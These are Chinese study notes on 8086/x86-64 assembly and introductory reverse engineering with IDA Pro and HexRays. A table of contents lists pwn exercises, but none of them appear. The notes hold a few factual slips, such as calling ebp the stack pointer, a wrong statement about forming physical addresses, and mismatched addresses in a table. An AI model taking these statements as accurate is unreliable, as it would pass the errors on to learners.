# Contents | 正文目录

- [Assembly-Language | 汇编语言](#assembly-language--汇编语言)
- [Reverse-Engineering | 逆向工程](#reverse-engineering--逆向工程)
- [PWN | You-just-got-pwned!](#pwn--you-just-got-pwned)

# Contents | 例题目录

- [示例-3.1.1：简单栈溢出](#示例-311简单栈溢出)
- [示例-3.1.2：2023网鼎杯pwn16](#示例-3122023网鼎杯pwn16)
- [示例-3.2.1：Canary机制](#示例-321canary机制)

# Assembly-Language | 汇编语言

## 第 1 章 基础知识

### 1.1 机器语言

机器语言是机器指令的集合。机器指令展开来讲就是一台机器可以正确执行的命令。电子计算机的机器指令是一列二进制数字。计算机将之转变为一系列高低电平，以使计算机的电子器件受到驱动，进行运算。

早期的程序设计均使用机器语言。程序员们将用 0、1 数字编成的程序代码打在纸带或卡片上，1 打孔，0 不打孔，再将程序通过纸带机或卡片机输入计算机，进行运算。

### 1.2 汇编语言

汇编语言发展至今，有以下 3 类指令组成：

1. 汇编指令：机器码的助记符，有对应的机器码。
2. 伪指令：没有对应的机器码，由编译器执行，计算机并不执行。
3. 其他符号：如`+`、`-`、`*`、`/`等，由编译器识别，没有对应的机器码。

### 1.3 指令和数据

指令和数据是应用上的概念。在内存或磁盘上，指令和数据没有任何区别，都是二进制信息。CPU 在工作的时候把有的信息看作指令，有的信息看作数据，为同样的信息赋予了不同的意义。

例如，内存中的二进制信息 1000100111011000，计算机可以把它看作大小为 89D8H 的数据来处理，也可以将其看作指令 mov ax,bx 来执行。

```
1000100111011000	->	89D8H （数据）
1000100111011000	->	mov ax,bx（程序）
```

### 1.4 存储单元

8 个 bit 组成一个 Byte，即一个字节。微型机存储器的存储单元可以存储一个 Byte，即 8 个二进制位。

一个存储器有 128 个存储单元，它可以存储 128 个 Byte。

1KB=1024B		1MB=1024KB 

### 1.5 CPU 对存储器的读写

CPU 要进行数据的读写，需要和外部器件（芯片）进行下面 3 类信息的交互：

- 存储单元的地址（地址信息）
- 器件的选择，读或写的命令（控制信息）
- 读或写的数据（数据信息）

### 1.6 总线

地址总线的宽度决定了 CPU 的寻址能力。地址总线上能传送多少个不同的信息，CPU 就可以对多少个存储单元进行寻址。

数据总线的宽度决定了 CPU 与其他器件进行数据传送时的一次数据传送量。8 根数据总线一次可以传送一个 8 位二进制数据（一个字节）。

控制总线的宽度决定了 CPU 对系统中其他器件的控制能力。有多少根控制总线，就意味着 CPU 提供了对外部器件的多少种控制。

### 1.7 存储器芯片

随机存储器（RAM）：可读可写，带电存储，关机后存储的内容丢失。

只读存储器（ROM）：只读不写，关机后内容不丢失。

## 第 2 章 寄存器

一个典型的 CPU 由运算器、控制器、寄存器等器件构成，这些器件靠内部总线相连。

内部总线实现 CPU 内部各个器件之间的联系，外部总线实现CPU和主板上其他器件之间的联系。

### 2.1 通用寄存器

8086CPU（x86架构）的所有寄存器都是16位的，可以存放两个字节。

AX、BX、CX、DX 这4个寄存器通常用来存放一般性的数据，被称为通用寄存器。

这 4 个寄存器可分为两个独立使用的 8 位寄存器：

- AX 可分为 AH 和 AL；
- BX 可分为 BH 和 BL；
- CX 可分为 CH 和CL；
- DX 可分为 DH 和 DL；

例如，AX 的低 8 位（0 位\~7 位）构成了 AL 寄存器，高 8 位（8 位\~15 位）构成了 AH 寄存器。AH 和 AL寄存器是可以独立使用的 8 位寄存器。

| 寄存器 | 寄存器中的数据  | 所表示的值   |
| ------ | --------------- | ------------ |
| AX     | 100111000100000 | 20000(4E20H) |
| AH     | 01001110        | 78(4EH)      |
| AL     | 00100000        | 32(20H)      |

### 2.2 字在寄存器中的存储

出于对兼容性的考虑，8086CPU 可以一次性处理以下两种尺寸的数据：

- 字节：byte，一个字节 = 8个bit，可以存在 8 位寄存器中。
- 字：word，一个字 = 两个字节，分别称为这个字的高位字节和低位字节。


可用 3 种不同的进制表示图中 AX 里的数据：

- 十进制：20000
- 十六进制：4E20H
- 二进制：0100111000100000B

十六进制数的一位相当于二进制数的四位，如 0100111000100000 可表示成：4(0100)、E(1110)、2(0010)、0000(0000)四位十六进制数。

一个数据的十六进制形式左移 1 位，相当于乘以 16；一个数据的十进制形式左移 1 位，相当于乘以 10；一个 X 进制的数据左移 1 位，相当于乘以 X。

### 2.3 几条汇编指令

示例一：

| 汇编指令  | 控制 CPU 完成的操作                      | 用高级语言的语法描述 |
| --------- | ---------------------------------------- | -------------------- |
| mov ax,18 | 将 18 送入寄存器 AX                      | AX=18                |
| mov ah,78 | 将 78 送入寄存器 AH                      | AH=78                |
| add ax,8  | 将寄存器 AX 中的数值加上 8               | AX=AX+8              |
| mov ax,bx | 将寄存器 BX 中的数据送入寄存器 AX        | AX=BX                |
| add ax,bx | 将 AX 和 BX 中的数值相加，结果存在 AX 中 | AX=AX+BX             |

示例二：

原 AX 中的值：0000H，原 BX 中的值：0000H

| 程序段中的指令 | 指令执行后 AX 中的数据 | 指令执行后 BX 中的数据 |
| -------------- | ---------------------- | ---------------------- |
| mov ax,4E20H   | 4E20H                  | 0000H                  |
| add ax,1406H   | 6226H                  | 0000H                  |
| mov bx,2000H   | 6226H                  | 2000H                  |
| add ax,bx      | 8226H                  | 2000H                  |
| mov bx,ax      | 8226H                  | 8226H                  |
| add ax,bx      | 044CH                  | 8226H                  |

示例三：

原 AX 中的值：0000H，原 BX 中的值：0000H

| 程序段中的指令 | 指令执行后 AX 中的数据 | 指令执行后 BX 中的数据 |
| -------------- | ---------------------- | ---------------------- |
| mov ax,001AH   | 001AH                  | 0000H                  |
| mov bx,0026H   | 001AH                  | 0026H                  |
| add al,bl      | 0040H                  | 0026H                  |
| add ah,bl      | 2640H                  | 0026H                  |
| add bh,al      | 2640H                  | 4026H                  |
| mov ah,0       | 0040H                  | 4026H                  |
| add al,85H     | 00C5H                  | 4026H                  |
| add al,93H     | 0158H                  | 4026H                  |

示例四：

| 程序段中的指令 | 指令执行后相关寄存器中的数据 |
| -------------- | ---------------------------- |
| mov ax,62627   | AX=F4A3H                     |
| mov ah,31H     | AX=31A3H                     |
| mov al,23H     | AX=3123H                     |
| add ax,ax      | AX=6246H                     |
| mov bx,826CH   | BX=826CH                     |
| mov cx,ax      | CX=6246H                     |
| mov ax,bx      | AX=826CH                     |
| add ax,bx      | AX=04D8H                     |
| mov al,bh      | AX=0482H                     |
| mov ah, bl     | AX=6C82H                     |
| add ah,ah      | AX=D882H                     |
| add al,6       | AX=D888H                     |
| add al,al      | AX=D810H                     |
| mov ax,cx      | AX=6246H                     |

### 2.4 物理地址

CPU 访问内存单元时，要给出内存单元的地址。所有的内存单元构成的存储空间是一个一维的线性空间，每一个内存单元在这个空间中都有唯一的地址，这个唯一的地址被称为物理地址。

CPU 通过地址总线送入存储器的，必须是一个内存单元的物理地址。在 CPU 向地址总线上发出物理地址之前，不需要再内部先形成这个物理地址。

地址加法器采用 **物理地址=段地址×16+偏移地址**的方法合成物理地址。段地址×16 可以看作是基础地址，即**物理地址=基础地址+偏移地址**。

示例一：

段地址 1230H，偏移地址 00C8H，则：

物理地址=段地址×16+偏移地址= 12300H + 00C8H = 123C8H

CPU 可以用不同的段地址和偏移地址形成同一个物理地址。例如，CPU 要访问 21F60H 单元，则它给出的段地址 SA 和偏移地址 EA 满足 SA×16+EA = 21F60H 即可。

示例二：

| 物理地址 | 段地址 | 偏移地址 |
| -------- | ------ | -------- |
| 21F60H   | 2000H  | 1F60H    |
|          | 2100H  | 0F60H    |
|          | 21F0H  | 0060H    |
|          | 21F6H  | 0000H    |
|          | 1F00H  | 2F60H    |

### 2.5 段寄存器

8086CPU 有 4 个段寄存器：CS、DS、SS、ES。当 8086CPU 要访问内存时，这 4 个段寄存器提供内存单元的段地址。

CS 和 IP 是8086CPU 中两个最关键的寄存器，指示了 CPU 当前要读取指令的地址。CS 为代码寄存器，IP 为指令寄存器。在 8086PC 机中，任意时刻，设 CS 中的内容为 M，IP 中的内容为 N，8086CPU 将从内存 M×16+N 单元开始，读取一条指令并执行，即 CPU 将CS:IP 指向的内容当作指令执行。

mov 指令被称作传送指令，mov 指令不能用于设置 CS、IP 的值。转移指令可以改变 CS、IP 的内容，jmp 指令是最简单的偏移指令。

若想同时修改 CS、IP 的内容，使用 `jmp 段地址:偏移地址` 指令，功能为：从指令中给出的段地址修改 CS，偏移地址修改 IP。

若想只修改 IP 的内容，使用 `jmp 某一合法寄存器` 指令，功能为：用寄存器中的值修改 IP。

示例一：

jmp 2AE3:3，执行后：CS=2AE3H，IP=0003H，CPU 将从 2AE33H 处读取指令。

jmp ax，执行前：ax=1000H，CS=2000H，IP=0003H，执行后：ax=1000H，CS=2000H，IP=1000H。

示例二：

将一段代码存放在 123B0H~123B9H 内存单元中，将其定义为代码段，如果要让这段代码得到执行，可以设 CS=123BH、IP=0000H。

## 第3章 寄存器（内存访问）

### 3.1 内存中字的存储

CPU 中，用 16 位寄存器来存储一个字。高 8 位存放高位字节，低 8 位存放低位字节。图中用 0、1 两个内存单元存放数据 20000(4E20H)。0、1 两个内存单元用来存储一个字，可以看作一个起始地址为 0 的字单元（存放一个字的内存单元，由 0、1 两个字节单元组成）。

示例一：

存放数据 20000(4E20H) 和 18(0012H)。



### 3.2 DS 和 [address]

CPU 要读写一个内存单元的时候，必须先给出这个内存单元的地址，在 8086PC 中，内存地址由段地址和偏移地址组成。

8086CPU 中有一个 DS 寄存器，通常用来存放要访问数据的段地址。例如将10000H(1000:0) 中的内容读取到AL中，可以用如下的程序段进行：

```
mov bx,1000H
mov ds,bx
mov al,[0]
```

可以使用 mov 指令将一个内存单元中的内容送入一个寄存器中。指令格式为 `mov 寄存器名,内存单元地址`。

`[address]` 表示一个偏移地址为 address 的内存单元，例如，`[0]`  中的 0 表示内存单元的偏移地址。但只有偏移地址是不能定位一个内存单元的，指令执行时，CPU 自动取 ds 中的数据作为内存单元的段地址。

8086CPU 不支持将数据直接送入段寄存器的操作，ds 是一个段寄存器，需要先将 1000H 先送入 bx 这样的一般寄存器，再将 bx 中的内容送入 ds。

### 3.3 字的传送

示例一：


内存中的情况如图所示，指令执行后寄存器 ax、bx、cx 中的值：

```
mov ax,1000H		
mov ds,ax			
mov ax,[0]
mov bx,[2]
mov cx,[1]
add bx,[1]
add cx,[2]
```

| 程序段中的指令 | 指令执行后相关寄存器中的数据 |
| -------------- | ---------------------------- |
| mov ax,1000H   | ax=1000H                     |
| mov ds,ax      | ds=1000H                     |
| mov ax,[0]     | ax=1123H                     |
| mov bx,[2]     | bx=6622H                     |
| mov cx,[1]     | cx=2211H                     |
| add bx,[1]     | bx=8833H                     |
| add cx,[2]     | cx=8833H                     |

### 3.4 mov指令

mov 指令可以有以下几种形式：

| 指令形式               | 示例                                        |
| ---------------------- | ------------------------------------------- |
| mov 寄存器，数据       | mov ax,8                                    |
| mov 寄存器，寄存器     | mov ax,bx                                   |
| mov 寄存器，内存单元   | mov ax,[0]                                  |
| mov 内存单元，寄存器   | mov [0],ax                                  |
| mov 段寄存器，寄存器   | mov ds,ax                                   |
| mov 寄存器，段寄存器   | mov ax,ds                                   |
| mov 内存单元，段寄存器 | mov ax,1000H<br />mov ds,ax<br />mov [0],cs |
| mov 段寄存器，内存单元 | mov ax,1000H<br />mov ds,ax<br />mov ds,[0] |

### 3.5 数据段

用 123B0H~123B9H这段内存空间来存放数据，段地址为 123BH，长度为 10 个字节。

累加这个数据段中的前 3 个单元中的数据，代码如下：

```
mov ax,123BH	
mov ds,ax		;将 123BH 送入ds中，作为数据段的段地址
mov al,0		;用 al 存放累加结果
add al,[0]		;将数据段第一个单元（偏移地址为 0）中的数值加到 al 中
add al,[1]		;将数据段第二个单元（偏移地址为 1）中的数值加到 al 中
add al,[2]		;将数据段第三个单元（偏移地址为 2）中的数值加到 al 中
```

累加这个数据段中的前 3 个字型数据，代码如下：

```
mov ax,123BH	
mov ds,ax		;将 123BH 送入ds中，作为数据段的段地址
mov ax,0		;用 ax 存放累加结果
add ax,[0]		;将数据段第一个单元（偏移地址为 0）中的数值加到 ax 中
add ax,[2]		;将数据段第二个单元（偏移地址为 2）中的数值加到 ax 中
add ax,[4]		;将数据段第三个单元（偏移地址为 4）中的数值加到 ax 中
```

注意，一个字型数据占两个单元，所以偏移地址是0、2、4。

### 3.6 push、pop 指令

栈的操作规则：LIFO(Last In First Out，后进先出)。

8086CPU 提供入栈和出栈指令，最基本的两个是 PUSH（入栈） 和 POP（出栈）。出栈和入栈操作都是以字为单位进行的。

8086CPU 中有两个寄存器，段寄存器 SS 和寄存器 SP，栈顶的段地址存放在 SS 中，偏移地址存放在 SP 中。**任意时刻，SS:SP 指向栈顶元素**。栈顶的变化范围最大为：0~FFFFH。一个栈段的容量最大为 64KB。

push 指令的执行步骤：

- SP=SP-2
- 向 SS:SP 指向的字单元中送入数据

pop 指令的执行步骤：

- 从 SS:SP 指向的字单元中读取数据
- SP=SP+2

push 和 pop 指令可以有以下几种形式：

| 指令形式      | 说明                                                     |
| ------------- | -------------------------------------------------------- |
| push 寄存器   | 将一个寄存器中的数据入栈                                 |
| pop 寄存器    | 出栈，用一个寄存器接收出栈的数据                         |
| push 段寄存器 | 将一个段寄存器中的数据入栈                               |
| pop 段寄存器  | 出栈，用一个段寄存器接收出栈的数据                       |
| push 内存单元 | 将一个内存字单元处的字入栈（注意：栈操作都是以字为单位） |
| pop 内存单元  | 出栈，用一个内存子单元接收出栈的数据                     |

示例一：

将 10000H~1000FH 这段空间当作栈，初始状态栈是空的，将AX、BX、DS 中的数据入栈。

```
mov ax,1000H
mov ss,ax
mov sp,0010H

push ax
push bx
push ds
```

示例二：

将 10000H~1000FH 这段空间当作栈，初始状态栈是空的，设置 AX=001AH，BX=001BH，利用栈，交换 AX 和 BX 中的数据。

```
mov ax,1000H
mov ss,ax
mov sp,0010H

mov ax,001AH
mov bx,001BH

push ax
push bx

pop ax
pop bx
```

示例三：

在 10000H 处写入字型数据 2266H，使用 mov 指令：

```
mov ax,1000H
mov ds,ax
mov ax,2266H
mov [0],ax
```

在 10000H 处写入字型数据 2266H，但**不使用 `mov 内存单元,寄存器`** 指令：

```
mov ax,1000H
mov ss,ax
mov sp,2
mov ax,2266H
push ax
```

### 3.7 段的综述

我们可以用一个段存放数据，将它定义为“数据段”；可以用一个段存放代码，将它定义为“代码段”；可以用一个段当作栈，将它定义为“栈段”。

对于数据段，将段地址放在 DS 中，使用 mov、add、sub等访问内存单元的指令。

对于代码段，将段地址放在 CS 中，将段中第一条指令的偏移地址放在 IP 中。

对于栈段，将段地址放在 SS 中，将栈顶单元的偏移地址放在 SP 中，使用 pop、push 指令进行栈操作。

## 第 4 章 [BX] 和 loop 指令

### 4.1 [bx]

[bx] 表示一个内存单元，它的偏移地址在 bx 中。例如，如下指令：

```
mov ax,[bx]
```

将一个内存单元的内容送入 ax，这个内存单元的长度为 2 字节（字单元），存放一个字，偏移地址在 bx 中，段地址在 ds 中。

```
mov al,[bx]
```

将一个内存单元的内容送入 al，这个内存单元的长度为 1 字节（字节单元），存放一个字节，偏移地址在 bx 中，段地址在 ds 中。 

### 4.2 loop 指令

loop指令的格式是：`loop 标号`。用 cx 和 loop 指令配合实现循环功能的程序框架如下：

```
	mov cx,循环次数
s:
	循环执行的程序段
	loop s
```

CPU 执行 loop 指令的时候，要进行两步操作：

- (cx)=(cx)-1
- 判断 cx 中的值，不为零则转至标号处执行程序，如果为零则向下执行

### 4.3 段前缀

```
mov ax,ds:[bx]
```

以上代码将一个内存单元的内容送入 ax，这个内存单元的长度为 2 字节（字单元），存放一个字，偏移地址在 bx 中，段地址在 ds 中。

```
mov ax,cs:[bx]
```

以上代码将一个内存单元的内容送入 ax，这个内存单元的长度为 2 字节（字单元），存放一个字，偏移地址在 bx 中，段地址在 cs 中。

这些出现在访问内存单元的指令中，用于显式地指明内存单元的段地址的 `ds:` 、`cs:` 、`ss:` 、`es:` ，在汇编语言中称为段前缀。

## 第 5 章 x86/x64 寄存器

### 5.1 x86 架构

一般的 IA-32（Intel Architecture，32-bit）即 x86 架构的处理器中包含以下寄存器：

- 通用寄存器 EAX、EBX、ECX、EDX、ESI、EDI。
- 栈顶指针寄存器 ESP、栈底指针寄存器 EBP。
- 指令计数器 EIP（保存下一条即将执行的指令的地址）。
- 段寄存器 CS、DS、SS、ES、FS、GS。

### 5.2 x64 架构

x86-64 架构在以上这些寄存器的基础上，将前缀的 E 改成 R，以标记 64 位，同时增加了 R8~R15 这8个通用寄存器。

R8~R15 进行拆分时的明明规则为 R8d（低 32 位）、 R8w（低 16 位）、 R8b（低 8 位）。

对于 16 位的情况，将前缀 E 全部去掉。

## 第 6 章 标志寄存器

8086CPU 的标志寄存器有 16 位，其中存储的信息通常被称为程序状态字（PSW）。

标志寄存器是按位起作用的，每一位都有专门的含义，记录特定的信息。

### 6.1 ZF 标志

ZF：零标志（Zero Flag），当运算结果全零时置 1。

它记录相关指令执行后，其结果是否为 0。

### 6.2 PF 标志

PF：奇偶校验标志（Parity Flag），当运算结果的最低有效字节有偶数个 1 时置 1。

它记录相关指令执行后，其结果的所有 bit 位中 1 的个数是否为偶数。

### 6.3 SF 标志

SF：符号标志（Sign Flag），有符号整形的符号位为 1 时置 1，代表这是一个负数。

它记录相关指令执行后，其结果是否为负。

### 6.4 CF 标志

CF：进位标志（Carry Flag），运算结果向最高位以上进位时置 1，用来判断无符号数的溢出。

在进行无符号数运算的时候，它记录了运算结果的最高有效位向更高位的进位值，或者从更高位的借位值。

### 6.5 OF 标志

OF：溢出标志（Overflow Flag），运算结果在被操作数是有符号数且溢出时置 1。

它记录了有符号数运算的结果是否发生了溢出。

### 6.6 AF 标志

AF：辅助进位标志（Auxiliary Carry Flag），当运算结果在第 3 位进位时置 1。

## 第 7 章 寻址方式

在 X86/x64 架构中，寄存器间间接寻址、基址寻址、变址寻址、基址加变址这 4 种寻址方式在实现的功能方便几乎相同，但语义上是由区别的。

在 16 位时代，这 4 种寻址方式不可混用。

在现代编译器中，编译器会根据语义和优化选择合适的寻址方式。

### 7.1 立即寻址

例如 1000H，表示 1000H 这个数字。

### 7.2 直接寻址

例如 [1000H]，表示地址为 1000H 的内存单元。

### 7.3 寄存器寻址

例如 RAX，表示 RAX 这个寄存器。

### 7.4 寄存器间接寻址

例如 [RAX]，表示以 RAX 中存放的数作为地址的内存单元。

### 7.5 基址寻址

例如 [RBP+10H]，表示将 RBP 中存放的数作为基址，加上 10H，访问这个运算后地址的内存单元。

### 7.6 变址寻址

例如 [RDI+10H]，表示将 RDI 作为变址寄存器，将其中的数字加上 10H，访问这个运算后地址的内存单元。

### 7.7 基址加变址寻址

例如 [RBX+RSI+10H]，同上。

## 第 8 章 汇编指令

x86/x64 汇编指令的基本格式如下：

```
操作码 [操作数 1] [操作数 2] 
```

常见的汇编指令：

| 指令类型   | 操作码 | 指令示例                | 对应作用                             |
| ---------- | ------ | ----------------------- | ------------------------------------ |
| 数据传送   | mov    | mov rax,rbx             | rax=rbx                              |
| 数据传送   | mov    | mov qword ptr [rdi],rax | *(rdi)=rax                           |
| 取地址     | lea    | lea rax,[rsi]           | rax=&*(rsi)                          |
| 算数运算   | add    | add rax,rbx             | rax +=rbx                            |
| 算数运算   | add    | add qword ptr [rdi],rax | *(rdi)+=rax                          |
| 算数运算   | sub    | sub rax,rbx             | rax-=rbx                             |
| 逻辑运算   | and    | and rax,rbx             | rax &=rbx                            |
| 逻辑运算   | xor    | xor rax,rbx             | rax ^=rbx                            |
| 函数调用   | call   | call 0x401000           | 执行 0x40100 地址的函数              |
| 函数返回   | ret    | ret                     | 函数返回                             |
| 比较       | cmp    | cmp rax,rbx             | 根据 rax 与 rbx 比较的结果改变标志位 |
| 无条件跳转 | jmp    | jmp 0x40100             | 跳到 0x401000 地址执行               |
| 栈操作     | push   | push rax                | 将 rax 的值压入栈中                  |
| 栈操作     | pop    | pop rax                 | 从栈上弹出一个元素放入 rax           |

汇编语言中的条件跳转指令有很多，它们会根据标志位的情况进行条件跳转。在条件跳转指令前往往存在用于比较的 cmp 指令，会根据比较结果对标志位进行相应设置。

常见的条件跳转指令：

| 指令        | 全称                                       | cmp a,b 条件      | flag 条件 |
| ----------- | ------------------------------------------ | ----------------- | --------- |
| jz/je       | jump if zero/equal                         | a = b             | ZF = 1    |
| jnz/jne     | jump if not zero/equal                     | a !=b             | ZF = 0    |
| jb/jnae/jc  | jump if below/not above or equal/carry     | a < b，无符号数   | CF = 1    |
| ja/jnbe     | jump if above/not below or equal           | a > b，无符号数   |           |
| jna/jbe     | jump if not above/below or equal           | a <=b，无符号数   |           |
| jnc/jnb/jae | jump if not carry/not below/above or equal | a >= b，无符号数  | CF = 0    |
| jg/jnle     | jump if greater/not less or equal          | a > b，有符号数   |           |
| jge/jnl     | jump if greter or equal/not less           | a  >= b，有符号数 |           |
| jl/jnge     | jump if less/not greater or equal          | a < b，有符号数   |           |
| jle/jng     | jump if less or equal/not greater          | a <= b，有符号数  |           |
| jo          | jump if overflow                           |                   | OF = 1    |
| js          | jump if signed                             |                   | SF = 1    |

# Reverse-Engineering | 逆向工程

## 第 1 章 基础知识

### 1.1 可执行文件

绝大多数正常的可执行文件，都是通过高级语言编译生成的。一般来说，编译时会发生以下流程：

- 用户将一组用高级语言编写的源代码作为编译器输入。
- 编译器解析输入，并为每个源代码文件产生对应的汇编代码。
- 汇编器接收编译器生成的汇编代码，并继续执行汇编操作，将生成的每份机器代码临时存于各对象文件中。
- 链接器将分散的各对象文件相互链接，经过处理后融合成完整的程序。按照可执行文件的格式，填入各种指定程序运行环境的参数，最后形成一个完整的可执行文件。

在编译阶段，一般会丢弃掉源代码中的注释信息。

在汇编阶段，可能会丢弃汇编代码中的 label（标签）名称。

在链接阶段，可能丢弃函数名、类型名等符号信息。

### 2.1 不同格式的可执行文件

Windows 系统使用 PE（Portable Executable）可执行文件。PE 文件由 DOS 头、 PE 文件头、节表及各节数据组成。如果需要引用外部的动态链接库，则有导入表；如果自己可以提供函数给其他程序来动态链接（常见于 DLL 文件），则有导出表。

Linux 系统使用 ELF（Executable and Linkable Format）可执行文件。 ELF 文件由 ELF 头、各节数据、节表、字符串段、符号表组成。

节（Section）是程序中各部分的逻辑划分，一般有特定名称，例如 `.text` 或 `.code` 代表代码节、`.data` 代表数据节等。

在运行时，可执行文件的各节会被加载到内存的各位置，一个或多个节会被映射到一个段（Segment）中。段的划分是根据这部分内存需要的权限（读、写、执行）来进行的。如果在相应的段内进行了非法操作，如在只能读取和执行的代码段进行了写操作，则会产生段错误（Segmentation Fault）。

### 2.2 汇编语言

汇编语言基础知识详见 Assembly Language | 汇编语言。

### 2.3 反汇编

反汇编是将机器代码翻译回汇编语言的过程。

在汇编过程中，label 信息会丢失。因为 label 用于标识跳转位置，它决定着程序执行时可能执行到的位置，即汇编语句的起始位置。所以，还原出正确的 label 信息对于正确还原程序执行流程至关重要。

尽管有信息丢失，仍然可以通过一些算法成功还原程序的流程，例如：线性扫描反汇编算法和递归下降反汇编算法。

### 2.4 调用约定

在编译器出现后，人们为编译器创立了一些规定各函数之间参数传递段地约定，称为调用约定。

x86 32 位架构的调用约定：

- `__cdecl`：参数从右向左依次压入栈中，调用完毕，由调用者负责清理压入的参数，返回值置于 EAX 中。绝大多数 x86 平台的 C 语言程序都在使用这种约定。
- `__stdcall`：参数同样从右向左依次压入栈中，调用完毕，由被调用者负责清理压入的参数，返回值同样置于 EAX 中。Windows 的很多 API 都是用这种方式提供的。
- `__thiscall`：为类方法专门优化的调用约定，将类方法的 this 指针放在 ECX 寄存器中，然后将其余参数压入栈中。
- `__fastcall`：为加速调用而生的调用约定，将第 1 个参数放在 ECX 中，将第 2 个参数放在 EDX 中，然后将后续的参数从右至作压入栈中。

x86 64 位架构的调用约定：

- Microsoft x64位（x86-64）调用约定：在 Windows 上使用，依次（从左至右）将前 4 个参数放入 RCX、RDX、R8、R9 这 4 个寄存器，然后将剩下的参数从右至左压入栈中。
- System V x64 调用约定：在 Linux、MacOS 上使用，比 Microsoft 的版本多了两个寄存器，使用 RDI、RSI、RDX、RCX、R8、R9 这 6 个寄存器传递前 6 个参数，剩下的从右至左压栈。

### 2.5 局部变量

每个函数在被调用的时候都会产生局部变量的区域、存储返回地址的区域和参数的区域。这些区域被称为帧，而这些帧都在栈上，又被称为栈帧。但是，栈的内存区域并不一定是固定的，而且随着每次调用段地路径不同，栈帧的位置也会不同。

虽然站的内容随着进栈和出栈会一直不断变化，但是一个函数中每个局部变量相对于该函数栈帧的偏移都是固定的。因此引入一个寄存器来专门存储当前栈帧的位置，即 ebp，称为栈指针。

程序在函数初始化阶段赋值 ebp 为栈帧中间的某个位置，这样可以用 ebp 引用所有的局部变量。由于上一层的父函数也要使用 ebp，因此要在函数开始时先保存 ebp，再赋值 ebp 为自己的栈帧的值，这样的流程在汇编代码中：

```
push ebp
mov ebp，esp
```

现在每个函数的栈帧便由局部变量、父栈帧的值、返回地址、参数四部分构成。

### 2.6 常用工具

- IDA Pro
- OllyDbg（64位环境下不能使用）和 x64dbg
- GNU Binary Utilities
- GDB（GNU Debugger）

## 第 2 章 静态分析

### 2.1 IDA 使用

#### 2.1.1 打开文件

IDA Pro 使用的是递归下降反汇编算法。

在打开文件前需要选择正确的架构版本（32 bit/64 bit）。

#### 2.1.2 加载文件

进入反汇编界面后，IDA 会为文件生成一个数据库（IDB），将整个文件所需的内容存入其中，以后的分析中就不再需要访问输入文件了，对数据库的各种修改也会独立于输入的文件。



界面被分为以下部分：

- 导航栏：显示程序的不同类型数据（普通含函数、未定义函数的代码、数据、未定义等）的分布情况。
- 反汇编的主窗口：显示反汇编的结果、控制流图等，可以进行拖动、选择等操作。
- 函数窗口：显示所有的函数名称和地址（拖动下方滚动条即可查看到），可以通过 Ctrl+F 组合键进行筛选。
- 输出窗口：显示运行过程中 IDA 的日志，也可以在下方的输入框中输入命令并执行。
- 状态指示器：显示为 `AU:idle` 即代表 IDA 已经完成了对程序的自动化分析。

#### 2.1.3 数据类型操作

用户可以根据地址的颜色来分辨某个位置的数据类型。标注为代码的位置，为黑色显示；标注为数据的位置，为灰色显示；未定义数据类型的位置则显示为黄色。

IDA 定义数据类型的快捷键（光标需要在对应行上才能生效）：

- U（Undefine）键：取消一个地方已有的数据类型定义，此时会弹出确认对话框，单击“Yes”按钮即可。
- D（Data）键：让某一个位置编程数据。一直按 D 键，这个位置的数据类型将会以 1 字节（byte/db）、2 字节（word/dw）、4 字节（dword/dd）、8 字节（qword/dq）进行循环。IDA 为了防止误操作，如果定义数据的操作会影响到已有数据类型的位置，IDA 会弹出确认对话框；如果操作的位置及其附近完全是 Undefined，则不会弹出确认对话框。
- C（Code）键：让某一个位置变成指令。确认对话框的弹出时机也与 D 键类似。在定义为指令后，IDA 会自动以此为起始位置进行递归下降反汇编。

IDA 还内建了各种数据类型，如数组、字符串等：

- A（ASCII）键：以该位置为起点定义一个以 `\0` 结尾的字符串类型。
- `*` 键：将此处定义为一个数组，此时弹出一个对话框，用来设置数组的属性。
- O（Offset）键：将此处定义为一个地址偏移。

#### 2.1.4 函数操作

IDA 处理函数的操作：

- 删除函数：在函数窗口中选中函数后，按 Delete 键。
- 定义函数：在反汇编窗口中选中对应行后，按 P 键。
- 修改函数参数：在函数窗口中选中并按 Ctrl+E 组合键，或在反汇编窗口的函数内部按 Alt+P 组合键。

#### 2.1.5 导航操作

IDA 有导航历史的功能，类似资源管理器和浏览器的历史记录，可以后退或者前进到某次浏览的地方：

- 后退到上一位置：快捷键 Esc。
- 前进到下一位置：快捷键 Ctrl+Enter。
- 跳转到某一个特定位置：快捷键 G，然后可以输入地址/已经定义的名称。
- 跳转到某一区段：快捷键 Ctrl+S，然后选择区段即可。

#### 2.1.6 类型操作

IDA 开发了一套类型分析系统，用来处理 C/C++ 语言的各种数据类型（函数声明、变量声明、结构体声明等），并且允许用户自由指定。

选中变量、函数后按 Y 键，弹出 “Please enter the tyoe declaration” 对话框，从中输入正确的 C 语言类型，IDA 就可以解析并自动应用这个类型。

#### 2.1.7 IDA 的其他功能

IDA 的菜单栏 “View -> Open subviews” 下可以打开各种类型的窗口。



- Strings 窗口：按 Shift+F12 组合键即可打开，可以识别程序中的字符串，双击即可在反汇编窗口中定位到目标字符串。
- 十六进制窗口：默认打开，可以按 F2 键对数据库中的数据进行修改，修改后再次按 F2 键即可应用修改。

### 2.2 HexRays 反编译器入门

HexRays 作为 IDA 的插件运行，利用 IDA 确定的函数局部变量和数据类型，优化后生成类似 C 语言的伪代码。用户可以浏览生成的伪代码、添加注释、重命名其中的标识符，也可以修改变量类型、切换数据的显示格式等。

#### 2.2.1 生成伪代码

在反汇编窗口中定位到目标函数，按 F5 键即可。

#### 2.2.2 修改标识符

HexRays 为用户提供了更改标识符名称的功能：将光标移动到标识符上，然后按 N 键，弹出更改名称的对话框，在输入框中输入一个合法的名称，单击 “OK” 按钮即可。修改后的伪代码更加便于阅读和分析。

#### 2.2.3 切换数据显示格式

重命名标识符后，伪代码已经基本还原。但是很多常量没有以正确的格式显示，例如，源代码中的 0x66 变为了十进制数 102，a 和 A 被转化为其 ASCII 编码对应的十进制数 97 和 65。

HexRays 并不能自动标注这些常量，但是提供了将常量显示为各种格式的功能。将光标移动到一个常量上，然后单击右键，在弹出的快捷菜单中选择对应的格式。



- Hexadecimal：十六进制显示，快捷键为 `H` 键，可以将各种其他显示格式转换回数字。
- Octal：八进制表示。
- Char：将常量转换为形如 `A` 的形式，快捷键为 `R` 键。
- Enum：将常量转为枚举中的一个值，快捷键为 `M` 键。
- Invert sign：将常量按照补码解析为负数，快捷键为 `_` 键。
- Bitwise negate：将常量按位取反，形如 C 语言中的 `~0xF0`，快捷键为 `~` 键。

HexRays 的快捷键有时触发不了，可以在失败时尝试使用右键快捷菜单。

#### 2.2.4 修改变量类型

